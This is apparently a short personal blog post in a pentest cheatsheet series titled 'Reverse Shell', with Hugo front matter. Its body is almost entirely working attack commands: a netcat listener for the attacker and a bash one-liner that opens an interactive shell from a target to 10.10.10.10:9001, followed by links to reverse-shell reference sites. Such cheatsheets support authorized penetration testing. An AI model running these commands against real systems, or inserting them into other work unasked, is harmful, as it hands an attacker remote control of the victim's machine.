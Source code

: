 ```yaml
---
title: Reverse Shell
date: 2022-10-18T11:30:30.000+00:00
tags:
- pentest
categories:
- cheatsheet
author: Me
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: Desc Text.
disableHLJS: false
disableShare: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
  image: "<image path/url>"
  alt: "<alt text>"
  caption: "<text>"
  relative: false
  hidden: true

---
```

## Start a listener on attacker:

    nc -lp 9001
    # ip=10.10.10.10
    # port=9001

## Run a shell on target:

* bash

    bash -i >& /dev/tcp/10.10.10.10/9001 0>&1

## References

* https://www.revshells.com/
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
